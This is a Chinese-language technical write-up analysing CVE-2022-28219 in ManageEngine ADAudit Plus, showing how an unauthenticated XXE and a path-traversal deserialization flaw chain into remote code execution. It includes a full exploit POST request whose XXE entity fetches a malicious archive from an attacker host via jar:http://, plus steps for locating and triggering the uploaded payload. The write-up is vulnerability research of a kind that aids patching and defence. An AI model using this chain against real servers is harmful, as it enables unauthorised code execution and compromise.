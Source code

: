# CVE-2022-28219 ZOHO ManageEngine ADAudit Plus XXE注入


# 前言

最近才看到这个洞，正好无事分析一波

# 环境搭建

我这里使用的是Win10安装：https://archives2.manageengine.com/active-directory-audit/7055/ManageEngine_ADAudit_Plus_x64.exe
除此之外还需要有域环境，我是使用了server2008搭建了一个域控

# 漏洞分析

实际上是两个洞结合在一起造成了rce，分别是未授权反序列化和未授权XXE

## 反序列化的点

该漏洞点还可以通过目录穿越指定目标文件

先来看一下`de.laures.cewolf.storage.FileStorage#getChartImage`，通过`getFileName`将传进来的id参数进行拼接且没有任何的过滤，返回文件路径，然后对指定文件进行反序列化

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/cfb4d47a-ceeb-15b7-92e2-98988a1bf099.png)

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/45b36e2d-6a38-2742-5498-a0488db9a72f.png)

而在`de.laures.cewolf.CewolfRenderer#doGet`中会调用`getChartImage`，可以看到前面提到的id参数就是从request中获取的img值，明显可以看到这是一个servlet类

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/88de7e6d-3458-be4a-73e0-88b4e0cddba4.png)

查看一下web.xml，找到了`/cewolf/*`接口，接着进行抓包构造，这里往服务器根目录上放一个cb链构造的序列化文件

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/57a78982-4c1a-ff86-dc0d-64da2f170b0a.png)

构造包，并通过目录穿越指定文件进行反序列化触发漏洞弹出计算器

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d2a2ba1b-a29c-342b-0e56-fca71855c845.png)


## XXE的点

这里先放一些解析XML的主要函数(可能存在XXE漏洞的函数)

```
javax.xml.parsers.DocumentBuilderFactory
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
rg.xml.sax.SAXParseExceptionpublicId
```

这个洞就是`javax.xml.parsers.DocumentBuilderFactory`解析用户传进来的未过滤的参数导致的XXE

在`com.adventnet.sym.adsm.auditing.server.category.ProcessTrackingListener#parseTaskContent`中，对`Task Content`或者`Task New Content`的值进行xml解析触发XXE漏洞

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/7ef15123-3760-aff1-2a29-f6a896b102b1.png)

直接来看`com.adventnet.sym.adsm.auditing.webclient.ember.api.ADAPAgentAPIServlet`和它对应的路由接口，所有请求最后都会进入到`executeAgentRequest`中

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/eda2031f-dd22-346c-7025-f3a359725295.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c772f3b5-26a9-8199-9d84-dc60445fb090.png)

在`executeAgentRequest`中先是将`/api/agent/`后的值提取出来，然后在`this.agentAPIMapping`中匹配取出对应的mappingInfo，这里是我随便输入的值111，而漏洞的点在`/tabs/agentData`中

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5950c75e-d2ae-c569-f3c6-c71d01289963.png)

更改为目标url后通过反射进入到`com.adventnet.sym.adsm.auditing.webclient.ember.api.agent.AgentDataHandler#receiveData`中，最后在`notify`中将post包内容添加到队列中

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c39331e0-1c91-74bc-3b14-5871e0e8644c.png)

![11.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/de9430f8-7e32-4581-e704-842ebcfdc348.png)

而在`notify`函数的类`EventDataAdapter`中的子类`EventDispatcher`中会对消息队列进行处理，这里会提取`DomainName`的值，而该值必须为域环境的域名否则后面会直接抛出异常无法触发漏洞

> 这里Y4er师傅提到了可以通过`/api/agent/configuration/getAgentServerInfo`接口获取完整的fqdn，前提是目标配置了agent

![12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5818c573-b02f-4e24-03cb-8c4e153490dc.png)

在`process`中，`filterEvents`会先对消息进行过滤，其中会提取`EventCode`的值，如果没有的话将会直接抛出异常，而前面讲到的`DomainName`如果值不是域环境中的域名的话`domainMap`会为空然后抛出异常

![13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/41997199-2e9c-747d-a9ae-29a316a0e44d.png)

![14.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/a956f52c-3a3c-c4a9-10e8-49454ad7e060.png)

接着会进入到`addEventRows`中，这里如果`EventCode`的值在`filterEvents`中不存在话会导致`procesedEventTable`为null就触发不了漏洞

![15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0fb4b315-621d-871a-7b44-a37a3043131b.png)

在`addEventRows`中，会通过`CategoryId`获取`eventCategoryListener`而为了进入漏洞触发点，它需要为`ProcessTrackingListener`，而当`CategoryId`为11时才满足这个条件，而在一开始`filterEvents`对消息队列进行检测时会通过`getCategoriesForEventId`获取`CategoryId`的值，可以看到`EventCode`的值为592或者4688时都符合(可能还有符合的)

![16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/ec774388-a406-d121-6c16-6cf099cbdbb8.png)

![17.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/cce72623-a9d1-4a3e-9f3d-568f1430ff2d.png)

![18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/6d5514f0-4c37-f974-a5ca-8baa4b043549.png)

最后进入到`getEventRow`中，接着进入到`parseTaskContent`中触发XXE漏洞，这里post包参数还需要有`EventType`和`TimeGenerated`，否则的话会直接抛出异常

![19.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/81bbf06f-fda7-1176-2d89-8544d1b9c497.png)

## 两个点结合rce

这样的话可以通过XXE的jar协议上传一个恶意的序列化文件在通过file协议获取文件的路径，在通过反序列化的点触发即可达到rce的目的

因为jar协议上传文件时如果链接协议断开，文件则会消失，因此使用[BlockingServer](https://github.com/pwntester/BlockingServer)工具使目标文件长时间停留在目标服务器上

开启BlockingServer，其中aaa.png为通过cb链构造的序列化文件，然后通过jar协议发送post包，此时上传的文件为aaa.png

![20.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0e076f55-9b86-2831-8a9f-7e451f173fab.png)

```
POST /api/agent/tabs/agentData HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 309

[
    {
        "DomainName": "test.com",
        "EventCode": 592,
        "EventType": 0,
        "TimeGenerated": 0,
      "Task Content": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ENTITY data SYSTEM \"jar:http://192.168.1.177:9999/qwe.zip!/qwe.txt\"> ]><foo>&data;</foo>"
    }
]
```

接着通过[xxe-ftp-server](https://github.com/LandGrey/xxe-ftp-server)工具查看上传的文件路径，其中如果目标系统为windows的话还要知道目标用户(这里可以先通过列举/Users 获取所有用户名)，此时知道了文件名和路径,直接通过反序列化的点指定文件进行触发漏洞

![21.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/856ea376-8c6f-1abf-8508-7a4f1cde3e41.png)

![22.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/fda51774-0e2d-acf3-45e0-711a38efc3e7.png)

# 参考链接

1. https://y4er.com/post/cve-2022-28219-zoho-manageengine-adaudit-plus-xxe-rce/

